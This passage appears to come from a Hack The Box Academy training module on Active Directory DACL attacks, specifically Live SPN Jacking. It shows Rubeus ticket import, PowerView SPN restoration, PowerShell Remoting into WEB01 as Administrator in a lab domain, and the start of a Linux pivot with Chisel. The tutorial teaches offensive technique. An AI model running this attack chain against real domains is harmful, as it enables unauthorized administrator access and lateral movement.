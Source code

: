Now we can use this ticket to impersonate the Administrator account on `WEB01` and target the `HTTP` service that PowerShell Remoting use:

```powershell
PS C:\Tools> .\Rubeus.exe ptt /ticket:doIGpjCCBqKgAwIBBaEDAgEWooIFsTCCBa1h<SNIP>

  ______    _
 (_____ \   | |
  _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v2.3.2

[*] Action: Import Ticket
[+] Ticket successfully imported!

```

We gain access to a ticket as the Administrator on WEB01. The attack chain we just perform can be illustrated as follows:

![text](https://academy.hackthebox.com/storage/modules/255/DACL-Attacks-II-Diagrams_2_updated.png)

It's a good practice to restore the SPNs we cleared. That won't affect the ticket we have. We can proceed to restore the SPNs with PowerView:

```powershell
PS C:\Tools> Set-DomainObject -Identity DBSRV003 -Set @{serviceprincipalname='WSMAN/DBSRV003','WSMAN/DBSRV003.inlanefreight.local','TERMSRV/DBSRV003','TERMSRV/DBSRV003.inlanefreight.local','RestrictedKrbHost/DBSRV003','HOST/DBSRV003','RestrictedKrbHost/DBSRV003.inlanefreight.local','HOST/DBSRV003.inlanefreight.local'} -Verbose

```

Finally we can use our new ticket to gain access to WEB01 using PowerShell Remoting:

```powershell
PS C:\Tools> Enter-PSSession -ComputerName WEB01
[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname
inlanefreight\administrator
WEB01

```

## Abusing Live SPN Jacking from Linux

To initiate a Live SPN Jacking attack from a Linux environment, we must ensure network access. Since we don't have access to the network, we will use [Chisel](https://github.com/jpillora/chisel) to create a proxy that allows us to connect to the internal network using our administrator rights in `SRV01`. Please check the module [Pivoting, Tunneling, and Port Forwarding](https://academy.hackthebox.com/module/details/158/). We will start setting `socks5 127.0.0.1 1080` on `/etc/proxychains.conf` file:

